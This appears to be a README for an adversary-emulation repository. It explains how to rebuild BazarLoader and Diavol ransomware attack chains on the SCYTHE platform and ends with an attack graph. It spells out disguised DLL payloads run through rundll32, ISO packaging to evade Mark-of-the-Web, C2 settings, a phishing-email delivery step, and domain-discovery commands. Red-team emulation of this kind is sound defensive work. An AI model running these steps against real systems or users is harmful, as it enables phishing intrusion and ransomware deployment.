



# BazarLoader

BazarLoader is used as part of the initial access portion of multiple threat groups. The threat focuses on bypassing defenses and is commonly changing TTPs. In this threat, we cover a number of different examples observed in the wild.

## BazarLoader Excel to WMIC to PowerShell to rundll32.exe
This CTI comes from https://app.any.run/tasks/c5dc698b-8e86-4e50-8b32-d8f45f7538b3/

### BazarLoaderStage0
1. Download and import the threats in JSON format to your SCYTHE instance
2. Create a new campaign `BazarLoaderStage0` with HTTPS
3. Import from Existing Threat: BazarLoaderStage0
4. Modify the process hollowing command to match the location where Microsoft Excel is installed in the target system
5. Launch the Campaign
6. Start Stage 1 and 2 before execution

### BazarLoaderStage1
1. Create a new campaign `BazarLoaderStage1` with HTTPS
2. Import from Existing Threat: BazarLoaderStage1
3. Launch the Campaign
4. Save the 64-bit EXE as `BazarLoaderStage1.exe`
5. Upload to VFS:/shared/threats/BazarLoader/BazarLoaderStage1.exe

### BazarLoaderStage2
1. Create a new campaign `BazarLoaderStage2` with HTTPS
2. Add any automation you would like to execute
3. Launch the Campaign
4. Download the DLL with entry-point set to `setscreen`
5. Save the DLL as `87764675478.dll`
6. Upload the DLL to VFS:/shared/threats/BazarLoader/87764675478.dll

## BazarLoader LOG File in ISO
This CTI comes from https://twitter.com/th3_protoCOL/status/1488600980979552256?s=20&t=QKD0ws_NAZdzjYI8LXmIQA

### BazarLoaderStage1

1. Download and import the BazarLoaderStage1 SCYTHE Threat JSON
2. Create a new Campaign, Select DiavolStage1 in Existing User-Defined Threats, and click Add Steps
3. Start Campaign
4. Select Download, File type DLL, and change the Entry-point function name to spload
5. Download and change the file name to DumpStack.log 
6. Create a new folder and place DumpStack.log into it
7. In the new folder right click navigate to New and select Shortcut
8. In the Type the location of the item paste in “cmd.exe /c xcopy /y DumpStack.log c:\programdata\ && C:\Windows\System32\rundll32.exe C:\programdata\DumpStack.log,spload && exit” and select next
9. Name the shortcut Attachments
10. Once the shortcut is created, right click and select properties
11. In the properties window clear the Start in field so it’s blank and apply the changes
12. Launch the application Folder2Iso available at https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src
13. For the Select Folder field choose the new folder you placed the .log and .lnk files in
14. Click Select Output and enter a name for the Select Output field, we chose Report
15. Click Generate ISO
16. Place the ISO file on the target host system, click the ISO to mount it, and then click the shortcut to execute the campaign

## Diavol Ransomware
The CTI for this threat comes from https://thedfirreport.com/2021/12/13/diavol-ransomware/ and is further explained in our #ThreatThursday blog series: https://www.scythe.io/library/adversary-emulation-diavol-ransomware-threatthursday

### DiavolStage0
1. Download and import the threats in JSON format to your SCYTHE instance
2. Download the Virtual File System (VFS) files under Diavol/VFS
3. Upload the VFS files to your SCYTHE VFS in the following location: VFS:/shared/threats/Diavol
4. Create a new campaign `DiavolStage0` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
5. Import from Existing Threat: DiavolStage0
6. Launch the Campaign
7. Download payload in DLL format setting the entry-point to `BasicScore`
8. Save the DLL as `SharedFiles.dll`
9. Start Stage 1 and 2 before execution
11. Copy the src folder from our [Compound Actions GitHub for T1553.005](https://github.com/scythe-io/compound-actions/tree/main/T1553.005%20-%20Mark-of-the-Web%20Bypass/src) to a working directory on your Windows system
12. Put the SCYTHE DLL in the Folder2Iso of the working directory
13. In the Folder2Iso directory, create a shortcut called `Documents` and set the `Target` to: `C:\Windows\System32\rundll32.exe SharedFiles.dll,BasicScore`
14. Open a Windows command prompt and cd to the working directory
15. Run `Folder2Iso.exe "Folder2Iso" "%USERPROFILE%\Downloads\new-documents-2005.iso" "Diavol" 0 0 0 "None"` This will take all the content of the Folder2Iso folder and create an ISO of it
16. Zip the ISO and call it `new-documents-2005.zip`
17. Upload the zip file to Microsoft OneDrive and copy the link
18. Send a phishing email with the link to the Microsoft OneDrive zip file
19. If the end user downloads the ZIP and double clicks the ISO, it will be mounted on their endpoint. The user will need to double click the shortcut to begin execution.

### DiavolStage1
1. Create a new campaign `DiavolStage1` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage1
3. Launch the Campaign
4. Download payload in EXE format and save it as `DiavolStage1.exe`
5. Upload the `DiavolStage1.exe` to the VFS under VFS:/shared/threats/Diavol

### DiavolStage2
1. Create a new campaign `DiavolStage2` with HTTPS and the communication options from the CTI. You can import from the config.json on this GitHub or manually set it to: `--cp yourdomain[.]com:443 --secure true --multipart 10240 --heartbeat 5 --jitter 10`
2. Import from Existing Threat: DiavolStage2 or create any automation you would like to execute
3. Launch the Campaign
4. Download payload in DLL format setting the entry-point to `EnterDll`
5. Save the DLL as `tfpkuengdlu.dll`
6. Upload the `tfpkuengdlu.dll` to the VFS under VFS:/shared/threats/Diavol


 #Attack Graph



 #Attack Graph



 #Attack Graph



 #Attack Graph
```mermaid
graph TD
Step0["<b> module: https </b> <br>"]
Step1[""]
Step2["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load run </i> <br>"]
Step3["<b> module: run </b> <br><h4> parameters: </h4> <i> net group /domain </i> <br><a href='https://attack.mitre.org/techniques/T1087.002'>att&ck-technique:T1087.002</a><br>
"]
Step4["<b> module: run </b> <br><h4> parameters: </h4> <i> net group /domain Domain Admins </i> <br><a href='https://attack.mitre.org/techniques/T1087.002'>att&ck-technique:T1087.002</a><br>
"]
Step5["<b> module: run </b> <br><h4> parameters: </h4> <i> net group Domain Computers /domain </i> <br><a href='https://attack.mitre.org/techniques/T1069.002'>att&ck-technique:T1069.002</a><br>
"]
Step6["<b> module: run </b> <br><h4> parameters: </h4> <i> net localgroup administrators </i> <br><a href='https://attack.mitre.org/techniques/T1069.001'>att&ck-technique:T1069.001</a><br>
"]
Step7["<b> module: run </b> <br><h4> parameters: </h4> <i> net view /all </i> <br><a href='https://attack.mitre.org/techniques/T1018'>att&ck-technique:T1018</a><br>
"]
Step8["<b> module: run </b> <br><h4> parameters: </h4> <i> nltest /domain_trusts /all_trusts </i> <br><a href='https://attack.mitre.org/techniques/T1482'>att&ck-technique:T1482</a><br>
"]
Step9[""]
Step10["<b> module: loader </b> <br><h4> parameters: </h4> <i> --load downloader </i> <br>"]
Step11["<b> module: downloader </b> <br><h4> parameters: </h4> <i> --src VFS:/shared/threats/Diavol/tfpkuengdlu.dll --dest %USERPROFILE%\AppData\Local\Temp\tfpkuengdlu.dll </i> <br>"]
Step12["<b> module: run </b> <br><h4> parameters: </h4> <i> rundll32.exe %USERPROFILE%\AppData\Local\Temp\tfpkuengdlu.dll,EnterDll </i> <br><a href='https://attack.mitre.org/techniques/T1218.011'>att&ck-technique:T1218.011</a><br>
"]
Step13["<b> module: controller </b> <br><h4> parameters: </h4> <i> --shutdown </i> <br><a href='https://attack.mitre.org/tactics/TA0011'>att&ck-tactic:TA0011</a><br>
<a href='https://attack.mitre.org/techniques/T1219'>att&ck-technique:T1219</a><br>
"]
Step0 --> Step1
Step1 --> Step2
Step2 --> Step3
Step3 --> Step4
Step4 --> Step5
Step5 --> Step6
Step6 --> Step7
Step7 --> Step8
Step8 --> Step9
Step9 --> Step10
Step10 --> Step11
Step11 --> Step12
Step12 --> Step13
Step13 --> Step14
```
